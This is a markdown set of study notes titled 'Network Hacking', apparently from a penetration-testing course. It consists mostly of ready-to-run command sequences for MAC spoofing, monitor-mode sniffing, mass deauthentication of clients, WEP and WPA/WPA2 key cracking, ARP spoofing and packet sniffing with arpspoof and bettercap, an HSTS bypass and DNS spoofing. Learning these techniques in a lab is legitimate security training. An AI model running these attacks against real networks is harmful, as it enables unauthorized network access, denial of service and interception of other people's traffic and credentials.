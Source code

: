 # Network Hacking

* To list all network interfaces available, we can use `ifconfig`. The MAC address can be viewed under _ether_ in _wlan0_ and the IP can be viewed under _inet_ in _eth0_.

* To change the MAC address:

```shell
ifconfig wlan0 down #disables wlan0

ifconfig wlan0 hw ether 00:11:22:33:44:55 #sets hardware address of wlan0

ifconfig wlan0 up #enables wlan0
```

* To list only wireless interfaces, we can use `iwconfig`.

* To change _wlan0_ to monitor mode:

```shell
ifconfig wlan0 down

airmon-ng check kill #optional; kills any process that disturb interface in monitor mode

iwconfig wlan0 mode monitor #changes wlan0 mode to monitor

ifconfig wlan0 up
```

---

* To sniff packets, we can use _airodump-ng_:

```shell
airodump-ng wlan0 #here, wlan0 must be in monitor mode in order to fetch details
```

* To sniff packets on particular wifi bands:

```shell
airodump-ng --band a wlan0 #captures all networks with 5 GHz band

airodump-ng --band abg wlan0 #captures 2.5 GHz and 5 GHz networks at the same time
```

* To do targeted packet sniffing:

```shell
airodump-ng --bssid 54:37:BB:B5:BB:09 --channel 4 --write testfile wlan0 #captures a particular network with given bssid and channel number, then it saves data to a file called testfile
#this will also show the devices connected to network
```

* To run a deauthentication attack, which can disconnect any client from any network:

```shell
aireplay-ng --deauth 100000000 -a 54:37:BB:B5:BB:09 -c 70:BB:E9:7B:AE:D2 wlan0
#here, aireplay-ng is the program name, followed by the deauth attack specifications including the MAC address of target router (-a) and MAC address of target client (-c)
```

---

* WEP(Wired Equivalent Privacy) can be cracked using two tools: _airodump-ng_ and _aircrack-ng_.

* To crack into a busy WEP network:

```shell
airodump-ng --bssid 54:37:BB:B5:BB:09 --channel 4 --write wep_test wlan0
#capturing data packets from WEP network and writing it into a file

aircrack-ng wep_test-01.cap
#analyze captured data, cracks the key and prints it
```

* To crack into a non-busy WEP network, we need to do a fake authentication attack:

```shell
airodump-ng --bssid 54:37:BB:B5:BB:09 --channel 11 --write arpreplay wlan0

aireplay-ng --fakeauth 0 -a 70:BB:E9:7B:AE:D2 -h 1A:AB:2E:49:AA:AD wlan0
#to associate with network; uses aireplay-ng tool to run a fake authentication attack on given MAC address access point (-a) and by wireless adapter having monitor mode(-h).

aireplay-ng --arpreplay -b 70:BB:E9:7B:AE:D2 -h 1A:AB:2E:49:AA:AD wlan0
#ARP request replay; forces access point to generate new IVs

aircrack-ng arpreplay-01.cap
```

---

* To crack WPA/WPA2:

```shell
airodump-ng --bssid 54:37:BB:B5:BB:09 --channel 3 --write wpa-handshake wlan0
#capture handshake (when client joins network)
#deauth attack can be done in parallel to capture handshake
aireplay-ng --deauth 4 -a 54:37:BB:B5:BB:09 -c 70:BB:E9:7B:AE:D2 wlan0
#After this handshake is captured and stored in file

crunch 6 8 ria258 -o trial-wordlist.txt
#wordlist created using crunch with specifics

aircrack-ng wpa-handshake-01.cap -w trial-wordlist.txt
```

---

* For devices connected on same network:

```shell
netdiscover -r 10.0.2.1/24 #search devices on same subnet as Kali

netdiscover -c 10 -r 10.0.2.1/24 -i eth0 #increases no. of packets
```

* zenmap (GUI for nmap) can be used to gather more data about devices within subnet range.

---

* ARP Spoofing using arpspoof:

```shell
arp -a #to view arp table, works on both Linux and Windows

arpspoof -i eth0 -t 10.0.2.15 10.0.2.1 #arpspoof target victim (Windows VM) through gateway

arpspoof -i eth0 -t 10.0.2.1 10.0.2.15 #arpspoof target router (gateway) through victim
#both arpspoof commands required to be run simultaneously
#result can be observed by viewing changed MAC address using 'arp -a' on victim PC

echo 1 > /proc/sys/net/ipv4/ip_forward #enable port forwarding
```

* ARP Spoofing using Bettercap:

```shell
bettercap -iface eth0 #initialize

net.probe on #net probing, gives list of connected IPs

net.show #list of connected clients
#'help' can be used to view modules

set arp.spoof.fullduplex true
set arp.spoof.targets 10.0.2.15 #change parameter values

arp.spoof on #start arp spoofer

net.sniff on #sniff packets

#.cap files can be created to run custom scripts to save time
bettercap -iface eth0 -caplet spoof.cap
```

* HTTPS and HSTS can be bypasses using caplets from Bettercap, such as hstshijack.

* DNS Spoofing:

```shell
service apache2 start #start web server

bettercap -iface eth0 -caplet spoof.cap

set dns.spoof.all true

set dns.spoof.domains zsecurity.org, *.zsecurity.org

dns.spoof on
#by default, it will redirect to interface address (10.0.2.4)
```

* Wireshark can be used to analyze packets sniffed using MITM attacks.

---
